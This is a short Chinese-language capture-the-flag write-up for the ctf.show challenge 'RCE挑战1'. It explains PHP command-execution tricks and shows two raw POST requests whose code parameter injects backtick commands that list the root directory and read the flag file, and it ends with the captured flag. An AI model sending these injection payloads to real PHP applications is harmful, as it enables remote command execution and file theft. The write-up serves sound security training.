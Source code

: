 # RCE挑战1

[题目地址](https://ctf.show/challenges#RCE%E6%8C%91%E6%88%981-3916)

这题和之前的一个[红包题](https://blog.csdn.net/qq_44657899/article/details/108011373)一样的思路，还简单了不少。重点在于这个执行命令的方式这个知识点。有一下3种方式来执行系统命令（举例ls，cat也能这么用）：

```
system('ls');
echo(`ls`);   echo+反引号
?><?=`ls`;
<?=是echo()的别名用法，不需要开启short_open_tag。
需要先?>把前面已有的<?php给闭合掉
```

知道这个就很简单了。构造payload。

```
POST / HTTP/1.1
Host: 0f11b105-32dc-4ec3-9067-97f2e127691e.challenge.ctf.show
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.5304.107 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 17

code=?><?=`ls /`;
```

注意是post，我发了半天get，还疑惑为什么不行……得知flag名为f1agaaa。cat直接出来。

```
POST / HTTP/1.1
Host: 0f11b105-32dc-4ec3-9067-97f2e127691e.challenge.ctf.show
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.5304.107 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 26

code=?><?=`cat  /f1agaaa`;
```

## Flag
> ctfshow{193bfec3-88a5-418f-8499-6e4da9e32650}